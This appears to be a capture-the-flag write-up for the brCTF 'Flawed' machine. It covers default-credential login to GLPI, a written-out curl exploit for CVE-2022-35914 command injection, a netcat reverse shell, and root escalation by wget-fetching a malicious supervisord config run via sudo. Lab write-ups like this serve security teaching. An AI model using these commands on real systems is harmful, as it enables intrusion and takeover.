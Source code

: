 # Flawed machine from brCTF

## Information Gathering/Reconnaissance
As is customary, we initiate our preferred network scanning tool, Nmap, to conduct initial reconnaissance. Our scan reveals that port 80, which is typically associated with HTTP and port 22, are accessible. <br>
`nmap -sC -sV -oN flawed.nmap 10.0.160.157`
```
Nmap scan report for 10.0.160.157
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second phase of our reconnaissance, we proceed to examine the application hosted on port 80 by accessing it through our web browser. To our surprise, we are welcomed with a login page. Quite intriguing!
![GLPI Login](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-login.png "a title")

After a brief research on google we discovered default credentials for GLPI which we can try on out target.
![google glpi logins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-default-creds.png "a title")

### Exploitation
We now attempt to login to GLPI and viola!!<br>
From there we move on with out recon and attempt to find the version of GLPI running. Hopefully we can find publicly available exploits.
![glpi logged in](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/checking-glpi-version.png "a title")
The version of GLPI can be seen in the photo below.
![glpi version enum](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-version.png "a title")

Now that we know the version running, we can google it to find avaiable exploits and shortly after, we find one on github from [Orange-CyberDefense](https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh)

**CURL Command to exploit the vulnerability** <br>
```curl -s -d 'sid=foo&hhook=exec&text=[command]' -b 'sid=foo' http://[target-ip]/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'```

Replace [command] and [target] with the command you  want to execute on the target and the IP address of the target respecfully.

We modify the exploit to get a reverse shell on out netcat listener.<br>
Firstly, we must make sure we are listening for incoming connections. <br>
![netcat listening](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-netcat-listener.png "a title")

Secondly, we prepare our exploit code to obtain a reverse shell.<br>
![preparing payload](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/modify-exploit.png "a title")

We execute the command and boom!! we get a connection on our listener. <br>
![conn reccv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/nc-connection-received.png "a title")

## Post Exploitation
As usual we need to stabilize out shell and the steps are as follows:<br>
#### Shell stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>

Let's continue from when we left off. Let's check the sudo privileges the `ETSCTF` user has on the box.
![sudo privs](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/check-sudo-privs.png "a title")

Hmmmm, interesting..... Can we abuse this? <br>
After doing some research we find out that: <br>
Supervisord is a `process control system` for Unix-like operating systems. It allows you to manage and monitor multiple processes, ensuring that they run continuously and `automatically restarting` them if they fail. Supervisord is often used to manage services, daemons, and other long-running processes.

Supervisord can run commands in it's configuration file. Now you get the hint from here? So what we'll have to do is to craft a configuration file for supervisord which contains commands to execute.<br>
We will take advantage of this to spawn a shell.<br>
![sudo privs](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/spawn-nc-shell-priv.png "a title")

Before anything else let's start our listener<br>
![other nc listener](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/other-nc-listener.png "a title")

Now we have to transfer our malicious configuration to the target. To make that possible we must start our local python http server in the directory containing out malicious configuration. <br>
`python3 -m http.server 8000` <br>
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-python-http-server.png "a title")

Downloading the malicious configuation from our python http server.<br>
NB: make sure you have write privileges to the current diretory you are in. You can use the `/tmp` since it has very loose permissions.<br>
`wget http://<server.ip>:<port>/test.conf`
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/downloading-mal-conf-file.png "a title")

Right after downloading the file we transfer it the the `/var/tmp` direcrory. This is necessary because it is the only folder that we can execute configuration files from.<br>
![copy to var-tmp](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/copy-payload-to-tmp.png "a title")

Now we can run our command with sudo to gain root privileges.<br>
![run pe vector](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/run-pe-vector.png "a title")

Viola!! we are root. :smiley: 
![i am root](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/iamroot_and_got_conn.png "a title")